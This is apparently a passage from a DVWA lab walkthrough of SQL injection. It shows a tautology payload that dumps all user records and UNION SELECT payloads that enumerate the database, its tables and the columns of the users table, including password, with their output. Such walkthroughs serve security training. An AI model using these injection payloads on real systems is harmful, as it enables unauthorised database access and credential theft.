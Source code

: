 which makes WHERE clause always true and shows us all the records:

```
ID: 'or 1=1-- -
First name: admin
Surname: admin

ID: 'or 1=1-- -
First name: Gordon
Surname: Brown

ID: 'or 1=1-- -
First name: Hack
Surname: Me

ID: 'or 1=1-- -
First name: Pablo
Surname: Picasso

ID: 'or 1=1-- -
First name: Bob
Surname: Smith
```

Using `UNION` keyword we can extract any information available to the app's user from the database.
` ' union select database(),null -- -`

```
ID: ' union select database(),null -- -
First name: dvwa
Surname: 
```

`' union select table_name,null from information_schema.tables where table_schema='dvwa'-- -`

```
ID:  ' union select table_name,null from information_schema.tables where table_schema='dvwa'-- -
First name: guestbook
Surname: 

ID:  ' union select table_name,null from information_schema.tables where table_schema='dvwa'-- -
First name: users
Surname: 

```

` ' union select column_name,null from information_schema.columns where table_name='users'-- -`

```
ID: ' union select column_name,null from information_schema.columns where table_name='users'-- -
First name: user_id
Surname: 

ID: ' union select column_name,null from information_schema.columns where table_name='users'-- -
First name: first_name
Surname: 

ID: ' union select column_name,null from information_schema.columns where table_name='users'-- -
First name: last_name
Surname: 

ID: ' union select column_name,null from information_schema.columns where table_name='users'-- -
First name: user
Surname: 

ID: ' union select column_name,null from information_schema.columns where table_name='users'-- -
First name: password
Surname: 
```